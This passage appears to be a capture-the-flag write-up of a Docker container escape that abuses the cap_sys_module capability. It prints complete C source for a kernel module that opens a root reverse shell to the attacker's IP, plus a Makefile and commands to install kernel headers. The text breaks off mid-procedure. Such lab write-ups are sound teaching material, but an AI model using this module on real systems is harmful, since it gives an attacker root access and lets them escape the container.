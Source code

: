 As it turns out we have the cap_sys_module capability which means we can load a module into the kernel, thus giving us arbitray code excution in ring 0.

Following  this [blogpost](https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd) we can create our own kernel module to send us a reverse shell as root. Adapting the code to our ip and the makefile to our filename we upload both to the docker.

`grem.c`
```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.24/7575 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

`Makefile`
```
obj-m +=grem.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

The necessary parts of the kernel to `make` our module have however been disabled. Lucky for us the needed `.deb` packes are in the root of the machine.

```js
root@91d87563a4c2:/root# ls /
bin  boot  dev  etc  home  lib  lib64  linux-headers-4.15.0-132-generic_4.15.0-132.136_amd64.deb  linux-headers-4.15.0-132_4.15.0-132.136_all.deb  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@91d87563a4c2:/root#
```

First we need to set the path for `dpkg` to install them.

```
root@91d87563a4c2:/# export PATH=$PATH:/usr/local/sbin/
root@91d87563a4c2:/# export PATH=$PATH:/usr/sbin/
root@91d87563a4c2:/# export PATH=$PATH:/sbin
```
